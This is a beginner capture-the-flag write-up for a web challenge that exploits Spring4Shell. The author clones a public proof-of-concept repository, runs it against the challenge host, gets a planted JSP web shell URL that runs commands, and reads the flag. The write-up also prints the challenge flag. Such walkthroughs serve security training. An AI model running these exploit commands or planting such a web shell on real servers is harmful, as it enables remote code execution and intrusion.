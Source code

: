 # Beginner/Spring

> Category: Web
> Spring RCE? Never heard of it. Do you mean RMB?

To get the flag on this challenge I used Kali Linux.

When I visit the website/url in the web browser, I am met with a button that says 'Click Me 4 Spring'.

If I click on this link it will play a video about spring.

![](img01.png)

With a hint of Remote code execution (RCE) and a hint about Spring on the website we can think about Spring4Shell.
Spring4Shell is a critical vulnerability in the Spring Framework where it possible to get RCE.

## Proof Of Concept (PoC)

Our Norwegian friend [BobTheShoplifter](https://danielchristensen.no/) have created a github repository where we can clone his repository and try the vulnerability on our challenge.
We first clone his repository and download the requirements with python


```
$ git clone https://github.com/BobTheShoplifter/Spring4Shell-POC
$ pip install -r requirements.txt
$ poc.py --help
```



We can now try it out.
```
$ python3 poc.py --url http://io1.ept.gg:32057/play
Vulnerable，shell url: http://io1.ept.gg:32057/tomcatwar.jsp?pwd=j&cmd=whoami
```

Visiting the the url we got provided we have now created a web shell.
![](img02.png)

We can see that we receive 'ctf' is the username of the machine.
Let's see what directories there are
![](img03.png)

We see flag is located in the same directory so now it is just to cat it

![](img04.png)

FLAG: EPT{th3_spr1n6_4_sh3ll_iS_mY_l0v3}


